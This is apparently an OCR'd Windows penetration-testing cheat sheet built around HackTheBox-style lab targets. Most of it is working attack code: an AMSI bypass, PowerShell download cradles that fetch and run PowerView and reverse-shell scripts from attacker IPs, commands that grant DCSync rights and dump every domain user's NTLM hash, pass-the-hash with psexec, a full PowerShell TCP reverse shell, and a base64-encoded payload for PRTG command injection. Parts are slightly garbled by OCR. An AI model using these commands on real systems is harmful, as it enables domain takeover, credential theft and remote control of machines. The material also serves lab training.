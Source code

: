 # Windows

Bypass AMSI

Import PowerView first

```powershell
PS C:\Users\svc-alfresco\Documents> menu
[+] Bypass-4MSI
[+] D11-Loader
[+1 Donut-Loader
[+] Invoke-Binary
PS C:\Users\svc-alfresco\Documents> Bypass-4MST
[+] Patched! :D
PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).
downloadstring('http://10.10.14.6/PowerView.ps1')
```

Add DCSync Rights

```powershell
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

GET NTLM Hashes for all domain users

```bash
secretsdump.py htb/john@10.10.10.161
```

Pass The Hash

```bash
psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

**reverse shell.ps1**

```bash
$client = New-Object System.Net.Sockets.TCPClient("{LHOST}",{LPORT});$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,
0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.L
ength);$stream.Flush()};$client.Close()

A standard Powershell download cradle is used to execute the reverse shell. "START" is used so that the existing telnet session is not locked up. The /B parameter is specified so that a new window is not created for the shell, which has the effect that the incoming shell is able to use the full width of the screen, instead of being constrained to the telnet session display width.

START /B "" powershell -c IEX (New-Object
Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
```

Encoding a powershell reverse shell to base64 - This technique is useful for executing commands on a vulnerable Windows web service, such as PRTG version 18.2.39, which is susceptible to command injection vulnerabilities. More details about this vulnerability can be found here(https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/)

```bash
#Downloading the reverse shell from Nishang in https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

#Encoding to base64
echo -n "IEX(new-objectnet.webclient).downloadstring('http://10.10.16.32/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0

#Configuring the reverse shell
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>' >> Invoke-PowerShellTcp.ps1

#send this encoded payload to webservice and just run to pop the shell:
<whatever data> | powershell -enc <base64 encoded payload>
```